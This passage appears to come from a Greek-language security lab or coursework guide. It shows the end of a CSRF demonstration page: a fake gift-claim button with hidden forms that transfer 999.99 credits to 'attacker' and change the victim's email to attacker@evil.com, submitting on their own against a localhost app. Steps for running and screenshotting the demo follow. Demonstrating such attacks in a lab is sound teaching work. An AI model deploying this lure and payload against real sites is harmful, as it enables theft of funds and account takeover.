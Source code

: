 ```html
        <p>Κάντε κλικ για να διεκδικήσετε το δώρο σας!</p>
        <button onclick="claim()">ΔΙΕΚΔΙΚΗΣΗ ΤΩΡΑ</button>
    </div>
    
    <!-- Hidden CSRF Forms -->
    <form id="transfer" action="http://localhost:8000/transfer-credits/" method="POST" style="display:none">
        <input name="recipient" value="attacker">
        <input name="amount" value="999.99">
    </form>
    
    <form id="email" action="http://localhost:8000/update-email/" method="POST" style="display:none">
        <input name="email" value="attacker@evil.com">
    </form>
    
    <script>
        function claim() {
            alert('Επεξεργαζόμαστε το αίτημά σας...');
            document.getElementById('transfer').submit();
            setTimeout(() => {
                document.getElementById('email').submit();
            }, 1000);
        }
        
        // Auto-submit after 3 seconds
        setTimeout(claim, 3000);
    </script>
</body>
</html>
```

**Εκτέλεση**:
```
1. Login στην εφαρμογή
2. Open νέο tab
3. Drag & drop το csrf_demo.html στο browser
4. Screenshot πριν το auto-submit
5. Screenshot του success message
6. Navigate to /profile/ και screenshot των αλλαγών
```

---

## Δημιουργία Professional Screenshots

### Εργαλεία για Screenshots

1. **Windows**: 
   - Snipping Tool (Win + Shift + S)
   - ShareX (δωρεάν, με annotations)
